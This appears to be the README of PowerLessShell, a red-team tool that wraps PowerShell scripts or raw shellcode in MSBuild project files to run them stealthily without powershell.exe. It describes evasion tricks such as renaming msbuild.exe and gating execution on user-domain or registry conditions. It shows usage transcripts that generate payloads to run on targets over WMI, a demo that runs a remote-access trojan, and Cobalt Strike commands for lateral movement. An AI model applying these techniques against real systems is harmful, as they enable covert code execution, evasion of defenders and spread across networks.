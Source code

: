 # PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. 
You can also execute raw shellcode using the same approach.

To add another layer of crap the payload will copy msbuild.exe to something random and build the payload using the randomly generated binary.

* You can provide -knownprocess switch to use known Windows process name instead of renaming MsBuild.exe to something random

# MSBuild conditions 

MSBuild support condition that can be used to avoid running code if the condition is not met.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current user domain is "RingZer0"

Condition supports several other formats that can be used to create more conditional execution check.

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

Property Functions also expose interesting data.

```
https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions
```

# Usage

Raw shellcode
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> shellcode

(Path to the raw shellcode file)>>> shellcode.raw

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>> RingZer0

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.cmd was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Powershell
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> powershell

(Path to the PowerShell script)>>> payload.ps1

(Path for the generated MsBuild out file)>>> payload.csproj

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.cmd was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Inline command
```
python PowerLessShell.py powershell.ps1 output (optional shellcode, -knownprocess)


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"




[+] output was generated.
[+] output.cmd was generated.
[+] Run the command inside of output.cmd on the target system using WMI.
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# Cobalt Strike Aggressor script (wmi_msbuild.cna) By MrT-F

cd into your cobalt strike client directory
```
cd /root/cobaltstrike
```
Clone this repository into folder PowerLessShell
```
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```
Load the aggressor script in your Cobalt Strike Console
Laterally move just like other Cobalt Strike macros:
```
wmi_msbuild [target] [listener]
```

# Credit
Mr.Un1k0d3r RingZer0 Team 2017


